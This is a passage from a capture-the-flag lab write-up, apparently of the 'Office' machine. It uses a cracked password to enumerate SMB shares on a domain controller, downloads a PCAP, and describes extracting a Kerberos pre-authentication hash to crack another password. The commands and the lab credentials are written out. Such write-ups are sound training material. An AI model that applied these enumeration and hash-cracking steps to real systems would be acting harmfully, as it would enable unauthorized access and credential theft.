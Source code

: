 Looks like we got a hit for the user `dwolfe`. We check what access this user has on the DC.

```console
$ smbmap -H 10.10.11.3 -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!'
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.10.11.3:445	Name: office.htb          	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	SOC Analysis                                      	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share
[*] Closed 1 connections
```

The user `dwolfe` has access over the `SOC Analysis` share and we can connect to the share using `smbclient`.

```console
$ smbclient.py 'office.htb/dwolfe:H0lOgrams4reTakIng0Ver754!@10.10.11.3'
# use SOC Analysis
# mget *
[*] Downloading Latest-System-Dump-8fbc124d.pcap
```

Looks like the share contains a `PCAP` file, so lets inspect this further with `WireShark`. We start by showing the `Protocol Hierarchy` and notice there are some frames for the `Kerberos` protocol.

![PCAP Protocol Hierarchy](../assets/images/writeups/office/pcap-kerberos.png)

Filtering the packets we notice an NTLM authentication session using SMB, which transmits an `AS-REQ`
through KRB. In the second AS-REQ packet, we get a timestamp hash. We can use this information to crack the password of the user that tried to authenticate.
